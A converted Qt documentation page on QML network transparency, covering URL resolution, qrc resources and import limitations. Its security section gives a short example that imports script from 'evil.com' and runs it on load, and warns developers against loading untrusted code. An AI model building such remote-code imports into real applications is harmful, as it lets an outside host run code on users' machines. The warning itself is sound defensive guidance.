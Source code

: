 ```yaml
---
Title: QtQml.qtqml-documents-networktransparency
---
```


# QtQml.qtqml-documents-networktransparency

<span class="subtitle"></span>
<!-- $$$qtqml-documents-networktransparency.html-description -->
<p>QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;http://www.example.com/images/logo.png&quot;</span>
}</pre>
<p>Since a <i>relative</i> URL is the same as a relative file, development of QML on regular file systems remains simple:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
}</pre>
<p>Network transparency is supported throughout QML, for example:</p>
<ul>
<li>Fonts - the <tt>source</tt> property of FontLoader is a URL</li>
<li>WebViews - the <tt>url</tt> property of WebView (obviously!)</li>
</ul>
<p>Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load <tt>http://example.com/mystuff/Hello.qml</tt> and that content refers to a type &quot;World&quot;, the engine will load <tt>http://example.com/mystuff/qmldir</tt> and resolve the type just as it would for a local file. For example if the qmldir file contains the line &quot;World World.qml&quot;, it will load <tt>http://example.com/mystuff/World.qml</tt> Any other resources that <tt>Hello.qml</tt> referred to, usually by a relative URL, would similarly be loaded from the network.</p>
<h2>Relative vs. Absolute URLs</h2>
<p>Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.</p>
<p>For example, consider this content in <tt>http://example.com/mystuff/test.qml</tt>:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
}</pre>
<p>The Image source property will be assigned <tt>http://example.com/mystuff/images/logo.png</tt>, but while the QML is being developed, in say <tt>C:\User\Fred\Documents\MyStuff\test.qml</tt>, it will be assigned <tt>C:\User\Fred\Documents\MyStuff\images\logo.png</tt>.</p>
<p>If the string assigned to a URL is already an absolute URL, then &quot;resolving&quot; does not change it and the URL is assigned directly.</p>
<h2>QRC Resources</h2>
<p>One of the URL schemes built into Qt is the &quot;qrc&quot; scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:</p>
<pre class="cpp">    <span class="type">QQuickView</span> <span class="operator">*</span>view <span class="operator">=</span> <span class="keyword">new</span> <span class="type">QQuickView</span>;
view<span class="operator">-</span><span class="operator">&gt;</span>setUrl(<span class="type">QUrl</span>(<span class="string">&quot;qrc:/dial.qml&quot;</span>));</pre>
<p>The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.</p>
<h2>Limitations</h2>
<p>The <tt>import</tt> statement is only network transparent if it has an &quot;as&quot; clause.</p>
<p>More specifically:</p>
<ul>
<li><tt>import &quot;dir&quot;</tt> only works on local file systems</li>
<li><tt>import libraryUri</tt> only works on local file systems</li>
<li><tt>import &quot;dir&quot; as D</tt> works network transparently</li>
<li><tt>import libraryUrl as U</tt> works network transparently</li>
</ul>
<h2>Implications for Application Security</h2>
<p>The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.</p>
<p>In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:</p>
<pre class="qml">import QtQuick 2.0
import &quot;http://evil.com/evil.js&quot; as Evil
<span class="type"><a href="QtQml.Component.md">Component</a></span> {
<span class="name">onLoaded</span>: <span class="name">Evil</span>.<span class="name">doEvil</span>()
}</pre>
<p>This is equivalent to downloading and executing &quot;http://evil.com/evil.exe&quot;. <b>The QML engine will not prevent particular resources from being loaded</b>. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.</p>
<p>As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. <b>Do not, for example, use <tt>import</tt>, Loader or <a href="QtQml.qtqml-javascript-qmlglobalobject.md#xmlhttprequest">XMLHttpRequest</a> to load any untrusted code or content.</b></p>
<!-- @@@qtqml-documents-networktransparency.html -->
